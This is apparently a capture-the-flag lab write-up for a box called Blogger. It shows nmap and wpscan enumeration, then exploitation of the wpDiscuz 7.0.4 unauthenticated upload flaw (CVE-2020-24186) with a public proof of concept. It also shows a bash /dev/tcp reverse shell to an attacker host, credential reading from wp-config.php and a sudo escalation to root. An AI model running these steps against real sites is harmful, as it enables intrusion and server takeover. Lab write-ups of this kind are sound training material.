



# Blogger

**Box info:** Difficulty: Medium · OS: Linux (Ubuntu 16.04, Xenial) · Focus: WordPress plugin RCE (wpDiscuz 7.0.4, CVE-2020-24186), credential/database pivoting, trivial sudo privilege escalation.

A WordPress site tucked under a non-standard path is fingerprinted, its outdated comment plugin is matched to a known unauthenticated RCE, and the resulting `www-data` shell leads to database credentials, a `vagrant` user with full passwordless sudo, and root.

---

## 1. Reconnaissance (nmap)

A full TCP port scan shows a small, web-focused attack surface:

```bash
nmap -p- -T4 -Pn -sV -oA nmap_full_scan 192.168.138.217
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Only SSH and HTTP are open, and there are no credentials for SSH, so the HTTP service is the only way in.

## 2. Enumeration

### Content discovery

```bash
ffuf -u "http://192.168.138.217/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
assets                  [Status: 200]
css                     [Status: 200]
images                  [Status: 200]
js                      [Status: 200]
server-status           [Status: 403]
```

Nothing obviously interesting at the webroot, but Apache's directory listing is enabled, so the `assets` tree is worth walking manually rather than only fuzzing from the root:



A `blog/` folder sits buried under `assets/fonts/` — an unusual, deliberately-obscured path for the actual application:



### Fingerprinting the CMS

`cmseek` and `wpscan` both confirm the stack and surface a version old enough to matter:

```bash
wpscan --url http://blogger.pg/assets/fonts/blog/ --enumerate --api-token <token>
```

```text
[+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
[+] Upload directory has listing enabled
[+] WordPress theme in use: poseidon
```

An aggressive plugin scan takes over 30 minutes but pays off — it finds a plugin far more dangerous than the outdated core itself:

```bash
sudo wpscan --url http://192.168.138.217/assets/fonts/blog --plugins-detection aggressive
```

```text
[+] wpdiscuz
 | Version: 7.0.4 (80% confidence)
```

`wpDiscuz` 7.0.4 is vulnerable to **CVE-2020-24186** — an unauthenticated arbitrary file upload in the comment form's image-upload handler that leads to remote code execution. A WordPress user enumeration and password brute-force against `wp-admin`/XML-RPC were tried first and went nowhere, and a known exploit for the `poseidon` theme also failed, so the plugin vulnerability was the way in.



## 3. Foothold — wpDiscuz unauthenticated RCE (CVE-2020-24186)

The public PoC abuses wpDiscuz's comment-image upload: it swaps the MIME type validation so a PHP payload is accepted as an "image" and dropped into `wp-content/uploads/`, where Apache will still execute it.

```bash
git clone https://github.com/carlosalbertotuma/wpDiscuz-7.0.4-PoC-RCE.git
cd wpDiscuz-7.0.4-PoC-RCE
python3 wpdiscuz_rce.py -u http://blogger.pg/assets/fonts/blog/ -p "/?p=1" --cmd "id"
```

```text
[+] wmuSecurity: 65b24b7eb3
[+] wc_post_id: 1
[+] Shell uploaded: http://blogger.pg/assets/fonts/blog/wp-content/uploads/2026/06/jcqwshhdew-1782113024.8162.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Confirmed command execution as `www-data`, so the same script delivers a full reverse shell:

```bash
python3 wpdiscuz_rce.py -u http://blogger.pg/assets/fonts/blog/ -p "/?p=1" \
  --cmd "bash -c 'bash -i >& /dev/tcp/192.168.45.207/9001 0>&1'"
```

```bash
nc -lvnp 9001
```

```text
connect to [192.168.45.207] from (UNKNOWN) [192.168.138.217] 55640
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2026/06$
```

### User flag

```bash
cd /home/james
cat local.txt
```

```text
<LOCAL_REDACTED>
```

## 4. Privilege escalation

With a stable `www-data` shell, `wp-config.php` yields the database root password in plaintext:

```bash
cat wp-config.php
```

```text
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'sup3r_s3cr3t');
```

That password is reused for the local MySQL/MariaDB `root` account, which confirms database access but doesn't directly hand over a shell as the application only stores a hashed WordPress login. Since local `su` attempts against `james`, `ubuntu`, and `root` all fail with guessed/known values, the home directories are checked for any other account:

```bash
su vagrant
# Password: vagrant
```

```text
vagrant@ubuntu-xenial:/home$
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
```

`vagrant` is a default low-value account on Vagrant-provisioned boxes, and it is almost always configured with blanket sudo rights for convenience — exactly what `sudo -l` confirms:

```bash
sudo -l
```

```text
User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
```

## 5. Root / proof.txt

Passwordless, unrestricted sudo is a direct path to a root shell:

```bash
sudo su
```

```text
root@ubuntu-xenial:/home/vagrant# cat /root/proof.txt
<PROOF_REDACTED>
```

---

## Takeaway

A directory-listing misconfiguration surfaced a WordPress install deliberately hidden under an unrelated path, and version fingerprinting of a single plugin (not the WordPress core) found the real way in: wpDiscuz's unauthenticated file-upload RCE. From there, a plaintext database password in `wp-config.php` and a leftover `vagrant` account with `NOPASSWD: ALL` sudo turned a web shell into root with almost no extra effort — a reminder that default provisioning accounts are frequently the weakest link once any shell is obtained.
